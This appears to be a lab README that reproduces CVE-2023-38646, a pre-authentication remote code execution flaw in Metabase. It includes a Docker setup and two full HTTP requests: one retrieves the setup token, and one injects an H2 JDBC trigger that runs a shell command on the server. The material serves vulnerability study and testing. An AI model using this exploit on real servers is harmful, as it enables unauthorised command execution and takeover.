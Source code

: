 # Metabase Pre-Auth JDBC Remote Code Execution (CVE-2023-38646)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform.

Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow unauthenticated attackers to execute arbitrary commands on the server, at the server's privilege level. This issue is caused by JDBC url attacks in the setup request.

References:

- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- <https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA>

## Vulnerable environment

Execute following command to start a Metabase server 0.46.6:

```
docker-compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:

![](1.png)

Fill in your information, and skip the data source form.

## Exploit

Firstly, use following request to retrieve the `setup-token`:

```
GET /api/session/properties HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

![](2.png)

The vulnerability can only be exploited by obtaining this setup token.

Secondly, replace your `[setup-token]` into the following request then send it:

```
POST /api/setup/validate HTTP/1.1
Host: localhost:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

As you can see, `touch /tmp/success` has been executed successfully:

![](3.png)
